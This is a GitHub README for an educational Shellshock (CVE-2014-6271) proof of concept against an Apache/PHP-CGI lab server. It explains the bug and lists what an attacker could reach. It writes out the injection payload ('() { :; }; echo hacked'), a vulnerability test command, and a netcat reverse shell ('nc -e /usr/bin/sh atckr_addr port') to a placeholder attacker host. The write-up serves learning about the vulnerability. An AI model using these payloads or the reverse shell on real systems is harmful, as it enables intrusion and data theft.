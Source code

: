 RBE
===

Remote Bash Execution

This POC (proof of concept) is for EDUCATIONAL PURPOSES ONLY! Please, do not use it with wrong intents in mind.

We set up a simple PHP website and a Python executable that exploits the [bash shellshock vulnerability](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/).


Development
=============
Please note that all the following tests were done in a local controlled environment for educational purposes only. Do NOT do this at home!
- Initially, we tested the vulnerability on our environments with the following command (see the link above for the source): 
 
 `env x='() { :;}; echo vulnerable' bash -c "echo this is a test`

- Next, we set up an http server on a CentOS machine with Apache and php-cgi running a very simple script (see index.php). The JOY when it worked!

- We started out by sending simple crafted HTTP packets that echoed text (inspired by [this blog post](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html#.VCNinnVdW00).

- We then tested more elaborate commands to discover what we had acces to. In our case, typing the command names as an apache user would not resolve the commands, yet calling them explicitly (`/usr/bin/command`) worked. We were able to run `find` commands and see all the files we had access to.

- At this point, it was annoying to type the commands individually. Fortunately, `nc` was installed on the server, so we used a reverse bind shell (`nc -lvp xxx` for the attacker and `nc -e /usr/bin/sh atckr_addr port`) for flexibility. At this point, we had a shell on the system, but running as apache user, all through a single HTTP packet with the right (or wrong?) headers.

- To simplify the process, we made a python script (in this repo) that calls netcat automatically.

Impact
======
With a shell on the victim's computer (limited as much as the apache user is on the machine), here is what we believe an attacker could do at this point:

- In our case, we only had write access to /tmp (which was actually a subdirectory within the real /tmp), so no straightforward way for a permanent backdoor.

- We had access to the source code, which could be leaked afterwards.

- Although we did not had the proper setup to try it, we think the attacker could reach the SSL keys (even easier than Heartbleed!)

- Depending on the setup (and knowledge of the attacker), one could privilege escalate and break the apache jail.

- Once inside, we can easily DDoS the system (which can hurt companies). We experienced this ourselves by playing around with `cat /dev/urandom/ > file`.

- We can DDoS another target (the initial target most likely has more firepower than an average system).

- We had access to the LAN, which could give access to new computers behind the firewall.

We probably are missing many other potential attack vectors here, but that is what we observed given a one-night hack-a-ton.

Therefore, we can see the major impact that CVE-2014-6271 ("shellshock") has.

The Exploit
===========
Given our limited knowledge of bash internals and the short time window that we had, here is what we understood of the exploit:

- When bash reads an environment variable containing a specially crafted function (i.e. `() { :; };`), it also executes the commands following the function definition (e.g. `echo hacked`).

- This can not really be exploited remotely by itself, it needs software that takes user input as a source for environment variable values.

- So, when php-cgi is started by Apache through bash (which looks like the default behavior), certain HTTP headers are passed through env (e.g. referer, host and cookies). Our research indicates that other CGIs that don't pass these values through env (e.g. FastCGI communicates through sockets) are not affected (we tested it!)

- Now, given carefully crafted HTTP headers (such as `() { :; }; echo hacked`), the next instruction through bash (e.g. a PHP `exec()`) will trigger the vulnerability.

Conclusion
==========
Finally, this was a very entertaining and rewarding experience. We clearly saw how dangerous this vulnerability is. For example, we have read about other software than Apache that can be used to exploit bash, such as DHCP clients. A clever attacker could start a malicious DHCP server in proximity of the victims and gain root access on the systems (as the dhcp client will execute the command as root).

Interestingly, we were surprised while testing the exploit: our reverse bind shell through nc was not interrupted when the connection with Apache is timed out. We expected the connection to be closed, but the actual behavior ended up being convenient.

We want to emphasize the fact that this was for educational purposes only. Please do not use with malicious intent.


This analysis was brought to you by [/JesseEmond](https://github.com/JesseEmond) and [/Parasithe](https://github.com/Parasithe).
